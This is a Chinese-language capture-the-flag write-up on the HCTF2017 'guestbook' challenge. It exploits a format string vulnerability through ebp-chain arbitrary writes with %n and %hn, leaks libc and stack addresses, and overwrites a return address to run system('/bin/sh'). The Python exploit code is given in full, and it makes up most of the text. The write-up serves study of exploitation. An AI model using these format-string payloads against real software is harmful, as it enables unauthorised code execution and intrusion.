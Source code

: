 # 关于HCTF2017的guestbook的一点总结

一道很明显的格式化字符串漏洞的题目，然后我在如何利用这块想了很久，总结一下经验吧。。。

## 通过格式化字符串漏洞进行DWORD/WORD SHOOT

因为是格式化字符串漏洞，（很明显see那里有格式化字符串漏洞，）可以利用ebp chain进行dword shoot，具体实现代码如下：

```python
#pre: iDst and iNum is smaller than 0x7fffffff
#the next two gust index is 2 and 3
def dword_shoot(iDst, iNum, idx1, idx2):
	add_guest("%"+str(iDst)+"x%72$n", "1")
	add_guest("%"+str(iNum)+"x%80$n", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
#iNum < 0x7fffffff
def stack_shoot_dword(addr_72, displacement, iNum, idx1, idx2):
	addr = (addr_72 + displacement * 4) & 0xffff
	add_guest("%"+str(addr)+"x%72$hn", "1")
	add_guest("%"+str(iNum)+"x%80$n", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
#iNum < 0xffff
def stack_shoot_word(addr_72, displacement, iNum, idx1, idx2):
	addr = (addr_72 + displacement * 2) & 0xffff
	add_guest("%"+str(addr)+"x%72$hn", "1")
	add_guest("%"+str(iNum)+"x%80$hn", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
```

72\$指向80\$,所以第一步先把80$处的地址写为我们的目标地址，然后下一次用这个地址进行任意地址写入（dword shoot）

然后是stack dword shoot，这个就有点麻烦了，因为貌似写入超过0x7fffffff的数会写入失败snprintf返回-1,而栈的基址一般都是大于这个值的，但是，有一个叫做hn的操作：只写入一个word，所以我们可以利用ebp chain的值的高16位都是栈的基址这点(不准确吧，不过反正就是栈那块的地址)，只对80$处的低16位进行写入，所以可以向栈中高16位是ebp chain的高16位的那块区域写入任意数据。addr_72是通过%u获取的72的值，displacement是相对那个所获取出来的值的偏移，这个地方会被写入一个word或者dword。。。

但是有个前提，就是调用dword_shoot之后，80$处的数据会被污染(高16位被破坏)，所以stack_shoot就不再奏效。。。

## 本题解题思路

### GOT表覆盖

一开始我是想覆盖GOT表地址(free变成system)，把某个phone的指针(本来指向堆)变成指向.data段的"/bin/sh"，可以通过将name设置成"/bin/sh"来实现。但是这是e8的call，是通过相对偏移调用的，而不是GOT表，所以失败

### 比较麻烦的方法

这个方法比较麻烦，也与预期的方法不一样，但还是记录一下吧。

首先，目标是调用see_guest时，将返回地址写入成system的地址，并在返回地址+8处写入"/bin/sh"作为其第一个参数

然而system的地址也是大于0x7fffffff的，所以要分两部分来word shoot，刚好有两个格式化字符串漏洞，然而phone是限制只能是数字的，所以可以先把phone的指针设为指向另一个guest的name，这个name也是进行word shoot的payload。一个射高16位，一个射低16位，完成目标，返回时执行到system("/bin/sh")

然而，我们需要在栈中先放置 返回地址 和 返回地址+2 的值，这样才能通过%xx$hn进行shoot，所以要先把它们stack_shoot_word到栈中。（因为栈的地址大于0x7fffffff，所以要找个高16位是那块区域的地址，修改其低16位使其指向返回地址和返回地址+2）

还有就是，我们所shoot的位置里面的内容必须要保持不变，就是，因为要各种add see del，如果这些操作会改变我们shoot位置的值，就不能shoot那里。这个具体可以调试器手动改一下然后随便搞些操作看下会不会被修改。。。

具体实现代码如下：

```python
add_guest("/bin/sh\x00", "1") #index 0
add_guest("%1$u %72$u %3$u", "1") #index 1
szName = see_guest(1)
del_guest(1)
libc = get_libc_base(szName)
guestbook = get_guest_base(szName)
from_72 = get_stack_from_72(szName)
#获取各种基址
system_addr = libc + 0x03ada0 # given 0x0003a940，这个是我电脑上的，题目给的是注释里面那个。。。
guestStruct = guestbook+0x3040
phoneStruct = guestbook+0x3063
structSize = 0x28 # both struct are 0x28
# +1 is the pointer to the phone in the heap
# +4 is the array of the name
ret = from_72 - 7 * 4

add_guest("%"+str(system_addr>>16)+"x%87$hn", "1") # index 1
#correspond to 14 that is going to be return addr + 2
add_guest("%"+str(system_addr&0xffff)+"x%84$hn", "1") # index 2
#correspond to 8 that is going to be ret addr

stack_shoot_word(from_72, 8, (ret) & 0xffff, 3, 4)
stack_shoot_word(from_72, 14, (ret + 2) & 0xffff, 3, 4)
#change 8 14 into the ret addr and ret addr+2

stack_shoot_dword(from_72, -5, guestStruct+4, 3, 4)
#shoot addr of "/bin/sh" into the position that is going to be the first argument

dword_shoot(phoneStruct+structSize+1, guestStruct+structSize*2+4, 3, 4)
#shoot shoot the index 1 phone as name of index 2

# see 1,然后覆盖返回地址为system，执行system("/bin/sh")
sh.send("2")
sh.recvuntil("input the guest index:\n")
sh.send(str(1))

sh.interactive()

```

## 经验总结

1. 一开始有个地方(del_guest)我用了recv而不是recvuntil，导致了有时成功有时失败。其实这是流的粘包与否的不确定性所造的孽。。。比方说，还没收完puts出来的字符串，就sh.recv()返回了。。。然后send再recv()把刚才的收完，再send，这个时候就会出错。。。（自己脑补一下吧。。。）
2. 面对这种比较复杂的exploit方法，还是多模块化封装比较好。。。不然会晕。。。
3. 其实想了另外一种exploit方法，就是stack_shoot_dword所存储的ebp，使得函数返回后，ebp被劫持，然后这里如果再通过[ebp-xxx]访问局部变量的话，会访问到我们指定的地址。。。比方说mov [ebp-0x10],xxx，如果这个xxx我们可以控制，ebp也能通过格式化字符串漏洞控制，那么就也能造成一个dword shoot。。。

